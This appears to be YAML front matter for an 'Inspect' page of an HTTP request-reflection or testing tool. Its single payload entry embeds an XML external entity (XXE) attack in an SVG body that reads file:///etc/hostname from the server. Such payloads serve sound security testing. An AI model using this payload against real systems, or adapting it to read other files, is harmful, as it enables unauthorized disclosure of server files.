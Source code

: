```yaml
---
title: Inspect
description: Reflect back HTTP requests in various formats
weight: 1
payloads:
  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /sh$
    data: '{"headers":{"Content-Type":"text/xml"},"body":"\u003c?xml version=\"1.0\" standalone=\"yes\"?\u003e\\n\u003c!DOCTYPE test [ \u003c!ENTITY xxe SYSTEM \"file:///etc/hostname\" \u003e ]\u003e\\n\u003csvg width=\"128px\" height=\"128px\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" version=\"1.1\"\u003e\\n\u003ctext font-size=\"16\" x=\"0\" y=\"16\"\u003e\u0026xxe;\u003c/text\u003e\\n\u003c/svg\u003e"}'
---
```


Depends on an internal code